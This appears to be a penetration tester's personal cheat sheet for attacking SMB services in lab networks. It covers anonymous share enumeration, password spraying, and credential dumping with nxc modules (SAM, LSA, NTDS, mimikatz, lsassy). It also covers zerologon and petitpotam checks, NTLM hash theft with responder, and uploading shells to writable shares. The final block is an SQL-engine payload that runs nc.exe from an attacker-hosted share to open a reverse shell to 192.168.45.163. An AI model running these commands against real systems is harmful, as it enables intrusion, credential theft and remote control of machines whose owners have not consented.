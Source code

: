 ## SMB Checklist

```bash
enum4linux -a $ip
enum4linux -a -u "$dom\\$user" -p "$pass" $ip
enum4linux -a -M -l -d $ip 2>&1
enum4linux -a -u "" -p "" $ip && enum4linux -a -u "guest" -p "" $ip
enum4linux-ng $ip
nmap $ip -p 139,445 –script smb*
smbclient -L //$ip
smbclient -N -L //$ip
smbclient -L //$ip -N
smbclient -N //$ip/backup
smbclient -L //$ip/myshare -U anonymous
smbclient //$ip/transfer -N
smbclient -U '%' -N \\\\$ip\\share
smbclient -U 'guest' \\\\$ip\\share
smbclient -U null -N \\\\$ip\\share
smbclient -U '%' -N \\\\$ip\\share -m SMB2
smbclient -U '%' -N \\\\$ip\\share -m SMB3
smbclient -L \\$ip -U "" -N -p 12445
smbclient '//$ip/Sarge' -p 12445
proxychains -q smbclient //172.16.173.21/monitoring -U "relia.com\andrea"
smbclient.py -k @braavos.essos.local # -no-pass
smbclient —kerberos //$dc/share


cd /opt/ntlm_theft # If writable shares
python ntlm_theft.py -g all -s $myip -f site
sudo responder -I tun0 -d -w
for file in $(ls .); do smbclient -U $user%$pass //$ip/Shared -c "put $file"; done # put all files in local directory in share root
for d in $(cat dirs.txt); do smbclient -U $user%$pass //$ip/homes -c "prompt OFF; recurse ON; cd /$d; lcd /home/kali/practice/hok/theft; mput *" ; wait ; done
for d in $(cat dirs.txt); do smbclient -U $user%$pass //$ip/homes -c "prompt OFF; recurse ON; cd /$d; lcd /home/kali/practice/hok/theft; put shell139.exe"; wait ; done
smbclient.py $dom
smbclient -W WORKGROUP -U % -t 5 -L //$dom -g
smbclient -W WORKGROUP -U % -s /tmp/tmpm24idfat -t 5 -L //192.168.154.117 -g
smbclient.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@$ip
> shares
> use Users

nxc smb $ip -u 'a' -p '' --shares # Guest logon
nxc smb $ip  -u 'user' -p 'pass' -M spider_plus
nxc SMB $ip -u USER -p PASSWORD --spider C\$ --pattern txt
nxc smb $ip -u $user -p $pass -M spider_plus -o DOWNLOAD_FLAG=true MAX_FILE_SIZE=1000000000

rpcclient -N -U "" \\$ip
rpcclient -U “” $ip ///when asked enter empty password
rpcclient -U “” $ip -N
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo   //password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
nbtscan IP

smbmap -H $ip
smbmap -H $ip -u 'a' -p ''
smbmap -H $ip -u '' -p '' -d $dom
smbmap -H $ip -u '' -p '' -r 'IPC$'

smbclient —kerberos //$dc/share
```

#### Look up the SMB versions

Miss this everytime.

#### NXC

```bash
nxc smb $ip
nxc smb $ip -u $user -p $pass --shares
nxc smb $ip -u $user -p $pass -M spider_plus
nxc smb $ip -u $user -p $pass -M spider_plus -o READ_ONLY=False
nxc $ip -u $user -p $pass --sessions
nxc smb $ip -u $user -p $pass --disks
nxc smb $dc -u $user -p $pass --pass-pol
nxc smb $ip -u $user -p $pass
nxc smb $ip -u $user -H $hash
nxc smb $ip -u '' -p ''
nxc smb $ip -u $user user2 user3 -p Summer18
nxc smb $ip -u $user -p $pass1 $pass2 $pass3
nxc smb $ip -u /path/to/users.txt -p Summer18
nxc smb $ip -u $user -p /path/to/$passs.txt
nxc smb $ip -u users.txt -p Summer18 --continue-on-success
nxc smb $ip -u $user -p $pass --local-auth
nxc smb $ip -u $user -p $pass --sam
nxc smb $ip -u $user -p $pass --lsa
nxc smb $dc -u $user -p $pass --ntds #Via RPC
nxc smb $dc -u $user -p $pass --ntds vss #Via VSS
nxc smb $ip -u $user -p $pass -M lsassy
nxc smb $ip -u $user -p $pass -M nanodump
nxc smb $ip -u $user -p $pass -M mimikatz
nxc smb $ip -u $user -p $pass -M procdump
nxc ldap $dc -u $ip -p $pass -M laps -o computer=$ip
nxc $ip -u Administrator -p $pass -x whoami
nxc $ip -u Administrator -p $pass -X '$PSVersionTable'
nxc smb $ip -u $user -p $pass -M slinky -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $ip -u $user -p $pass -M scuffy -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $dc -u '' -p '' -M zerologon
nxc smb $dc -u '' -p '' -M petitpotam
nxc smb $dc -u $user -p $pass -M nopac
```
#### To recursively download

```bash
> prompt off
> recurse on
> mget *

> prompt off
> recurse on
> dir *

// smbmap
// crackmapexec
```

You can try putting payloads in SMBs as soon as you can, that way you don't have to worry about that method of client-side attacks.

If you can navigate to the web root, maybe wwwroot, you can upload a shell and try to access it through your browser.

#### Mounting SMB Shares

Instead of enumerating Windows shares with smbclient, you can mount shares on your local filesystem and enumerate in a familiar environment.
```bash
sudo mkdir /mnt/data
sudo mount -t cifs //123.123.123.123/Data /mnt/data
sudo mount -t cifs -o sec=krb5,vers=3.0 '//SERVER.DOMAIN.LOCAL/SHARE' /mnt/share
```

Note that Windows likes to store some files in UTF-16LE, while Linux likes UTF8. If you run into this problem, you'll need to convert in order to cat the files.

```bash
cat file | iconv -f UTF-16LE -t utf8
```

#### Notes

Using nxc smb will find you the domain name quickly.

Resource: https://www.netexec.wiki/smb-protocol/enumeration/enumerate-null-sessions

#### Create Samba (SMB) Share on Kali

To start an SMB share on a Kali Linux machine, you typically use Samba, a popular open-source        
software suite that provides file and print services to SMB/CIFS clients. Here's a quick guide:      

1. Install Samba:

```bash   
sudo apt update
sudo apt install samba
```

2. Configure Samba:

Edit the Samba configuration file:

```bash
sudo nano /etc/samba/smb.conf
```

Add your share definition at the end of the file. For example:        

```bash
[MyShare]
path = /path/to/your/share
available = yes
valid users = your_username
read only = no
browsable = yes              
public = yes
writable = yes
```

3. Add a Samba User:

Samba requires a Linux user to map to. If you haven't already, create a Linux user or use an existing one.
Then, add the user to Samba:

```bash
sudo smbpasswd -a your_username
sudo systemctl restart smbd smbd
```

4.  Verify the Share:

From a Windows machine, you can access the share using "\\kali_ip\MyShare".
From a Linux machine, use smbclient to access the share.

```bash
    "//kali_ip/MyShare -U your_username" 
```
Alternative:

Kali:

```bash
impacket-smbserver -smb2support newShare . -username test -password test
```

Windows:

```bash
PS C:\Users\jim\Documents> net use z: \\192.168.45.163\newShare /u:test test
PS C:\Users\jim\Documents> copy Database.kdbx z:\
```

You can also execute commands that lie on your Linux machine from a Windows one through SMB shares:

```bash
sudo smbserver.py -smb2support Share .

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/nc.exe -e cmd.exe 192.168.45.163 8082").getInputStream()).useDelimiter("\\Z").next()');
#or 
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/wicked.exe").getInputStream()).useDelimiter("\\Z").next()');
```